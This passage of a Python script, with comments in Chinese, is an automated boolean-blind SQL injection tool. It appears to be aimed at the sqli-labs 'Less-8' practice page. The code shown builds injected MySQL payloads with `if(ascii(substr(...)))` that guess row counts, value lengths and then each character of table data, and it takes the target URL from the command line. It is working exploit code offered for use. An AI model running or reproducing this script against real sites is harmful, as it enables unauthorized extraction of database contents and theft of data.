 ```python
				if flag in res.content.decode("utf-8"):
					column += chr(c)
					print(column)
					break
		# 把获取到的名加入到DBColumns
		DBColumns.append(column)
		#清空column，用来继续获取下一个字段名
		column = ""


# 获取表数据函数
def GetDBData(url, dbtable, dbcolumn):
	global DBData
	# 先获取字段数据数量
	DBDataCount = 0
	print("[-]开始获取{0}表{1}字段的数据数量".format(dbtable, dbcolumn))
	for DBDataCount in range(99):
		payload = "'and if ((select count({0}) from {1})={2},1,0)  %23"
		targetUrl = url + payload
		res = conn.get(targetUrl.format(dbcolumn, dbtable, DBDataCount))
		if flag in res.content.decode("utf-8"):
			print("[-]{0}表{1}字段的数据数量为:{2}".format(dbtable, dbcolumn, DBDataCount))
			break
	for a in range(0, DBDataCount):
		print("[-]正在获取{0}的第{1}个数据".format(dbcolumn, a+1))
		#先获取这个数据的长度
		dataLen = 0
		for dataLen in range(99):
			payload = "'and if ((select length({0}) from {1} limit {2},1)={3},1,0)  %23"
			targetUrl = url + payload
			res = conn.get(targetUrl.format(dbcolumn, dbtable, a, dataLen))
			if flag in res.content.decode("utf-8"):
				print("[-]第{0}个数据长度为:{1}".format(a+1, dataLen))
				break
		#临时存放数据内容变量
		data = ""
		#开始获取数据的具体内容
		#b表示当前数据内容猜解的位置
		for b in range(1, dataLen+1):
			for c in range(33, 128):
				payload = "'and if (ascii(substr((select {0} from {1} limit {2},1),{3},1))={4},1,0)  %23"
				targetUrl = url + payload
				res = conn.get(targetUrl.format(dbcolumn, dbtable, a, b, c))
				if flag in res.content.decode("utf-8"):
					data += chr(c)
					print(data)
					break
		#放到以字段名为键，值为列表的字典中存放
		DBData.setdefault(dbcolumn,[]).append(data)
		print(DBData)
		#把data清空来，继续获取下一个数据
		data = ""


if __name__ == '__main__':
	parser = optparse.OptionParser('usage: python %prog -u url \n\n'
									'Example: python %prog -u http://192.168.61.1/sql/Less-8/?id=1\n')
	# 目标URL参数-u
	parser.add_option('-u', '--url', dest='targetURL',default='http://127.0.0.1/sql/Less-8/?id=1', type='string',help='target URL')
	(options, args) = parser.parse_args()
```